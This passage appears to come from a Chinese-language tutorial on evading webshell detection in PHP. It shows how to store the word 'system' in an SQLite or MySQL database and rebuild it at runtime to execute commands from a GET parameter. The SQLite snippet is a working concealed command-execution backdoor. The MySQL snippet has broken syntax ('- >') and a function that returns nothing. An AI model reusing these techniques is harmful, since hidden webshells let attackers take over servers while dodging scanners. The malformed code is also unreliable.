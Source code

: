 可以尝试通过读取数据库内的内容，来获取敏感关键词或者拿到执行命令的关键语句，就可以拼接到 php 中执行恶意的代码了。

### 6.1 Sqlite 数据库

配合我上面写的 `file_put_contents()` 文件写入函数，先写入本地 Sqlite 文件然后读取敏感内容

```bash
$path = "AabyssZG.db";
$db = new PDO("sqlite:" . $path);
//连接数据库后查询敏感关键词
$sql_stmt = $db->prepare('select * from test where name="system"');
$sql_stmt->execute();
//提权敏感关键词并进行拼接
$f = substr($sql_stmt->queryString, -7, 6);
$f($_GET['aabyss']);       //system($_GET['aabyss']);
```

### 6.2 MySQL 数据库

这里使用 `MySQLi()` 这个函数，其实 PHP 有很多 MySQL 连接函数，可自行尝试

然后通过这个函数，连接公网数据库（只要目标能出网），即可连接并获得敏感字符拼接到 php 中

```bash
function coon($sql) {
    $mysqli = new MySQLi("localhost", "test", "test123", "test");
    //默认的 MySQL 的类，其属性与方法见手册
    if ($mysqli - > connect_error) {
        //connect_error 为属性，报错
        die("数据库连接失败：".$mysqli - > connect_errno. "--".$mysqli - > connect_error);
        // connect_errno:错误编号
    }
    $mysqli - > select_db("test"); //选择数据库
    // 返回值 $res 为资源类型（获取到结果的资源类型）
    $res = $mysqli - > query($sql) or die($mysqli - > error);
    //释放结果集，关闭连接
    $mysqli - > close();
}
$sql = "select * from test where name LIKE 'system'";
$arr = coon($sql);
$res = array("data" => $arr);
echo json_encode($res);
```

## 7# PHP 过滤器
